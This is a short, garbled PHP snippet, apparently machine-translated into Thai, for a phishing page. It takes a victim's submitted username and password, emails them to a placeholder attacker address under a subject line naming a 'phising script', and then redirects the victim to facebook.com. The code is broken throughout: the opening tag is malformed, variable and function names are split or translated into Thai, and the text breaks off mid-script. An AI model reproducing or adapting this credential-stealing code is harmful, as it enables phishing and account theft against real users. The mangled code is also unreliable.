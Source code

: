 <php?
	mail_sender () {
		$ username = $ POST [ 'ชื่อผู้ใช้' ];
		$ password = $ POST [ 'รหัสผ่าน' ];
		
		$ reciever = "ที่อยู่อีเมลของคุณ" ;
		
		$ subject = "ได้รับการเข้าถึงใหม่โดย phising script" ;
		$ข้อความ ="ชื่อผู้ใช้" $ชื่อผู้ใช้ ;
		$ข้อความ . ="และรหัสผ่านคือ" รหัสผ่าน$ ;
		
		 อีเมลที่ส่งคืน ( $ reciever , $ subject , $ message );
	}
	
	ถ้า ( mail_sender ()) {
		header ( "Location: http://www.facebook.com" );
